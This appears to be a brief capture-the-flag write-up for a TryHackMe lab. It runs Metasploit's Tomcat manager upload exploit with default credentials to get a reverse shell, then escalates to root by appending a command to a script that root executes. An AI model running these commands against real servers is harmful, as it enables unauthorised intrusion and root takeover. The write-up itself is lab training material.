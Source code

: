 # Thompson
https://tryhackme.com/room/bsidesgtthompson

8080/tcp open  http    Apache Tomcat 8.5.5

exploit tomcat manager using metasploit 
		
	use exploit/multi/http/tomcat_mgr_upload
	show options
	set RHOST <target ip>
	set RPORT 8080
	set LHOST <your ovpn ip>
	set httpUsername tomcat
	set httpPassword s3cret
	exploit

user shell!

In home dir jack has a file called id.sh, whichs we have to save cmd into this id.sh then its run that cmd as root.

echo "cat /root/root.txt > test.txt" >> id.sh
cat test.txt

Root flag.....

